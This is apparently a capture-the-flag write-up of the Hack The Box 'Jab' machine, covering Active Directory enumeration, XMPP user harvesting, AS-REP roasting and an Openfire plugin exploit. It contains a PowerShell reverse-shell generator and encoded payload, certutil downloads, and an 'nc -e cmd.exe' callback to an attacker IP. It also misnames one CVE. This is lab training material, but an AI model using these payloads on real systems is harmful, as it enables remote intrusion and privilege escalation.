

Machine IP: 10.10.11.4

## Scanning

### Nmap

```
sudo nmap - sC - sV - oA jab_scan 10.10.11.4
```


We have port 53,88,135,389,445,464, 636 etc.

Also see the domain: "jab.htb"

Trying DNS, LDAP and SMB enumeration yielded nothing.

Since, we are dealing with a DC machine, I tried kerbute:

```markdown
./kerbrute_linux_amd64 userenum --dc 10.10.11.4 -d jab.htb /usr / share / seclists / Usernames / xato - net - 10 - million - usernames.txt
```


We got some users but none gave us hashes via AESRepRoasting. Next port that looks promising is 5222 running Jabber xmpp service. Checking this out online. We find out that XMPP is an open standard mostly used for messaging and there are client/ server implementations. We also find out that there can be data leakage of employee names and the likes. This is what we want.


Using this as a reference point to exploit XMPP: [https://exploit.im/index-en.html](https://exploit.im/index-en.html)


We see that we need to install pidgin client

```javascript
sudo apt install pidgin
```

Run pidgin using the 'pidgin' command


click on 'add' change protocol to xmpp. Basically follow the steps for new account creation here: [https://exploit.im/index-en.html](https://exploit.im/index-en.html)

Add domain as: jab.htb. Specify a password. (Dont forget to check the 'Create new account on this server' box)


Go to Advanced and Add the ip address as connect server: 10.10.11.4

Now, we get an XMPP Client Registration page


After getting the registration successful prompt, we proceed to the 'Buddy List'. We click on 'Join a Chat', then 'Room List'. We get a popup to query conference.jab.htb, proceed and now we het two rooms: test and test2We check these two rooms out by clicking 'Join'. We see that we can only join the "test 2" roomNothing interesting here, other than the name: bdavis. Looking aroud, we see a feature that helps us search for users

Click Search Directory

Enter "\*" for wildcard query and click on OK

Now, we get a list of users as the output

We cant copy and paste this so we can try export the search users result to a list. To do this we need to open another instance of pidgin and send the ouput to a list:

```
sudo pidgin -d > users.txt
```

CTRL C to make sure the changes are exported to the list. We have out result, but its jumbled:

However, we can clean this. Looking at the format, we are interested in the names between the value tag. Ex: \<value>[lmccarty@jab.htb](mailto:lmccarty@jab.htb)\</value>

```
grep -o '\<value>.\*\</value>' users.txt | cut -d ">" -f 2 | cut -d "@" -f 1 | cut -d "\<" -f 1 | tee new\_users
```

Remove the first three lines and you're good.

We can return back to AESRepRoasting, now that we have our list of certain valid users.

Apparently, that didn't give us all the users. We need to find a better way to filter users.
Copy users manually. The users we had initally missed then redo AESREP Roast.

```
impacket-GetNPUsers -dc-ip 10.10.11.4 jab.htb/ -usersfile users1 -outputfile hash -format john
```

Now that we have the hash, we can crack using john.


```john hash --wordlist=/usr/share/wordlists/rockyou.txt

```

Creds

```
jmontgomery@JAB.HTB : Midnight\_121
```

We can use this creds on the pidgin client


Follow through with process like we used in creating the previous accounts. Searching for rooms, we see a new room 'pentest2023'


Looking at the conversations in the room, we see that someone had ran a GetUserSPN imapact command and has gotten the hash of the svc_openfire service account. We also have the password that has been cracked using hashcat.


### Low Priv Shell

Now that we have another set of creds, how can we get initial foothold? Going back, we have a bunch of ports, and we have a couple of MSCRPC services running. After searching we see on hacktricks that we can get RCE (with valid creds) via MSRPC service using dcomexec, which is a part of impacket tool.


Ref: [https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)

How to use dcomexec: [https://wadcoms.github.io/wadcoms/Impacket-DCOMExec/](https://wadcoms.github.io/wadcoms/Impacket-DCOMExec/)

```
impacket-dcomexec -object MMC20 jab.htb/svc_openfire@10.10.11.4
```

Getting stuck here

We can pass a command to execute within the victim machine. I will be passwing this as a payload within the dcomexec command. To do this, I have this python script that creates a payload then encodes it in base64 format

```python
#!/usr/bin/env python3
#
# generate reverse powershell cmdline with base64 encoded args
#
import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()

try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)

```

To run this, we need two arguments: the attacker's ip address and listeneing port:

```
python3 mkpsrevshell.py 10.10.16.63 4444
```


Now we have a base64 encoded payload, we can pass it to our decomexec command. Remember to start a necat cat listener on port 4444

```
rlwrap nc -nvlp 4444
```

dcomexec command:

```javascript
impacket - dcomexec - object MMC20 jab.htb / svc_openfire: @10.10.11.4 'cmd.exe /cpowershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANgAzACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
' -silentcommand
```

Now we get a shell as svc_openfire user:


### Privilege Escalation

For this step, I typically start by doing these basic checks before delving deeper:

```powershell
systeminfo | findstr / B / C: "OS Name" / C: "OS Version" / C: "System Type"
whoami
net user
net group
whoami / groups
whoami / priv
netstat –nao
Get-Process
dir C: \Windows\System32\config\RegBack\SAM -- > check windows.old
dir C: \Windows\System32\config\RegBack\SYSTEM
```

Checking the service running using Get-Process, we notice the openfire-service runningChecking searchsploit: `searchsploit openfire`. We see a priv esc vulnerability which applies to us right now`searchsploit -m jsp/webapps/38190.txt`

To get the exploit in the current working directory. Checking the content, we have details about the exploit and how to become admin.

We now know that we are dealing with CVE-2022-22733.

We need to have access to the openfire webpage from our attacker machine. To do this, we need to forward the port openfire is running on locally to us. What port does openfire run on?


We see that it typically runs on port 9090. For port forwarding, we use chisel. Transfer chisel to windows machine:

```
certutil -urlcache -f http\://\[IP]/chisel.exe chisel.exe
```

and on attacker machine:

```
./chisel server -p 8800 --reverse
```

With the help of other articles, we discovered to open port 9091 as well. On victim machine, run the chisel client:

```
 .\chisel.exe client\[IP]:8800 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091&
```

So now, we will have access to the openfire portal on port 9090

Now we can login in with the svc_openfire credentials. We see the admin console


To find out how to exploit this, we search online, this github repo has the payload we can use: [https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)

Follow the steps in the repo: clone repo, upload jar file and get admin.

After exploit is ran, a new user was created:


login with new user creds and upload jar file as plugin. Dont forget to change the csrf and session token as well.

If you are having difficulties, follow steps here: [https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce)

Over here, we see that under the Description tab we wee pass 123. Now, we go to Server > Server settings > Management Tool. You will be asked for a password, enter: 123

We now see some details about the server

We can choose 'system command' to run commands on the server and get interactive shell.


Check which user we are:


To get root shell, we first upload netcat then get root shell:

```
certutil -urlcache -f http://[ip]/nc.exe c:/windows/temp/nc.exe
c:/windows/temp/nc.exe [IP] 1234 -e cmd.exe
```


After executing this, we shell as NT auth

